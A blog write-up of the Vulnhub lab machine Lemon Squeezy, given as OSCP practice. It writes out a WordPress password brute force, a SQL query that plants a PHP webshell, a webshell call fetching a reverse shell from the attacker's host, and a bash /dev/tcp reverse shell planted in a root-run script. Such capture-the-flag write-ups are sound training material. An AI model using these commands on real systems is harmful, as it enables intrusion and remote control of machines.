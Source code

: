```yaml
---
layout: single
title: "Vulnhub Write-up: Lemon Squeezy"
excerpt: "Writeup for an OSCP-like machine created by my hackin' homie"
date: 2020-05-13
header:
  teaser: #/assets/images/Stripe-Vulnhub/vulnhub.png
  teaser_home_page: true
classes: wide
categories:
  - vulnhub
  - infosec
tags:
  - enumeration
  - wordpress
  - sql
---
```




My study partner and former colleague recently created an OSCP-like machine for Vulnhub, as my machine Stripes already has a writeup available, I felt his machine must be a bit lonely so I decided to be the first one to draw blood and create this writeup.

You can download the machine from vulhub: https://www.vulnhub.com/entry/lemonsqueezy-1,473/

## Summary 

- Scan wordpress to obtain both usernames and passwords
- Obtain PHPmyadmin creds and login
- Create backdoor by abusing SQL CLI access
- Keep squeezing the machine until the hidden escalation vector is identified

## Enumeration 
### Nmap :

![nmap](/assets/images/lemonsqueezy/1.jpg)


Full port scan shows just 80 (HTTP) open.
Navigating to 80 shows just the default apache page.
Gobuster shows that wordpress is installed, for good measure I started a dirbuster scan in the background in case wordpress was a red herring, 
however was confident that enumerating with wpscan would yield some information.

        wpscan --url http://lemonsqueezy/wordpress --enumerate u

As below we get 2 users:

![users](/assets/images/lemonsqueezy/2.JPG)

Next I ran good old rockyou against them:

        wpscan --url http://lemonsqueezy/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames lemon,orange

The first password is found very fast, I left the attack going on lemon but am highly doubtful it will find anything, I will move onto logging in:


![password](/assets/images/lemonsqueezy/3.JPG)

After seeing we will not be able to upload a shell, I had a look around the panel and found a draft post with a password in it.

I tried it in phpmyadmin first, as the draft was created by the current user (orange), and was able to log into phpmyadmin as orange with this PW first try

I had a brief look for exploits for the phpmyadmin version however decided to see what I could and couldn't do in here first.
Turns out I can set a new password value for lemon, which should allow me to log into the admin panel in WP and get a shell.
I changed the password to "password" and logged in.


![change_pass](/assets/images/lemonsqueezy/4.JPG)

Looks like the themes cannot be edited and media cannot be uploaded, seems to be intentionally hardened against this vector - so we will put a malicious plugin together and get shell this way.
I used a handy tool called wordpwn to spin a malicious plugin together - however I failed to realise that ALL upload functionailty is broken - so this did not work.
I went back to Phpmyadmin where I am unable to create new databases.
What I can do however is run direct sql queries.
I used this to create a webshell and confirm code execution as below:

        select "<?php echo shell_exec($_GET['cmd']);?>" into outfile '/var/www/html/wordpress/wp-content/uploads/shell.php'

confirmed code execution with whoami:

        http://lemonsqueezy/wordpress/wp-content/uploads/shell.php?cmd=whoami

![change_pass](/assets/images/lemonsqueezy/5.JPG)

I tried a few reverse shell oneliners however none worked so I gave up and simply hosted a php reverse shell, 
amended the IP and then grabbed with wget:

         http://lemonsqueezy/wordpress/wp-content/uploads/shell.php?cmd=wget%20http://192.168.20.132/1.php

I then started a listener, navigated to the shell I just grabbed and now have a proper low priv foothold:

        http://lemonsqueezy/wordpress/wp-content/uploads/1.php


![low_priv](/assets/images/lemonsqueezy/6.JPG)

I upgraded my shell because I am both lazy and fancy

   In remote terminal:
   
        python3 -c 'import pty; pty.spawn("/bin/bash")'
        Ctrl-Z
   In Kali terminal:
   
        stty -a
        stty raw -echo
        fg
        stty rows 20
	
Ta-da, now I have hand features such as autocomplete, access to bash history etc.
One of the first things I do with a www-data shell is go straight to /var/www/ and snoop around for additional web apps and credentials,
I was surprised to see user.txt in there, I did not think I would be able to read yet, however I was able to grab the flag - I suspect this means that we will 
either be pivoting straight to root or be able to read root flag as lemon/orange

![low_priv](/assets/images/lemonsqueezy/7.JPG)

*fun fact, flag decodes to "Music can change your life, "


## Privilege Escalation 

I did not find out anything in here I did not already know, I also manually checked for local listening ports and sudo commands aswell as snooped around orange's directory, so I decided to infiltrate some enumeration scripts to finish the rest of the groundwork for me.
After trying linenum and linpeas only linux smart enum gave me some useful info, I suspect this is because the binary was hidden by being called logrotate
https://github.com/diego-treitos/linux-smart-enumeration

![logrotate](/assets/images/lemonsqueezy/8.JPG)

I overwrote the code inside logrotate with a generic bash reverse shell one liner and got a shell back as root.

        #!/bin/bash
        bash -i >& /dev/tcp/192.168.20.132/8080 0>&1

![root_proof](/assets/images/lemonsqueezy/9.JPG)

The flag by itself does not decode, however if you add it to the second flag you get a profound bit of wisdom.
I will leave this to the solver to find this :)

All in all I think this was a fantastic OSCP prep machine, I personally preffered the user foothold over the privilege escalation but it certainly made me "squeeze" a bit harder huehuehue



